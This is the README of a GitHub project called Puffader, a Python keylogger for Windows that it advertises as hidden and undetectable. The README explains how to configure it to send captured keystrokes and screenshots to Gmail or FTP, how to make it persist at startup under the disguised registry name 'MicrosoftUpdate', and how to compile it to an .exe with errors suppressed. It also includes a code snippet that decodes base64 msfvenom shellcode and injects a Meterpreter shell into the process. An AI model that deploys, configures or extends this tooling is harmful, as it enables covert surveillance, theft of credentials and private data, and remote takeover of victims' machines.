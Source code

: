 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots and mouse window clicks.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyAutoGui](https://pypi.python.org/pypi/PyAutoGUI)

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

The program can be downloaded via github or git eg.
```git clone https://github.com/xp4xbox/Puffader```

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to send logs via ftp
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to stop the program via ctrl-rshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Ability to capture window mouse clicks
* Ability to run at startup
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `23-46` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

blnFTP = "False"
strFtpServer = ""
intFtpPort = 21
strFtpUser = ""
strFtpPass = ""
strFtpRemotePath = "/"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120

blnLogClick = "True"
blnAddToStartup = "False"
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### You can only choose one method for storing/sending logs, default is by email.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

#### If you ever set the program to run at startup and want to remove it, open regedit and navigate to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and delete the value `MicrosoftUpdate`.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe
1. **(Optional)** Add this code to Puffader.py `sys.stderr = None` after the import statements to ensure no errors will show.
2. Install [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/).
3. Make sure the program is called Puffader.py in your python folder as well.
4. Run `python setup.py`
5. You should see the .exe in the dist folder.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances as [here](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/Puffader_Code_Addition.py). Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
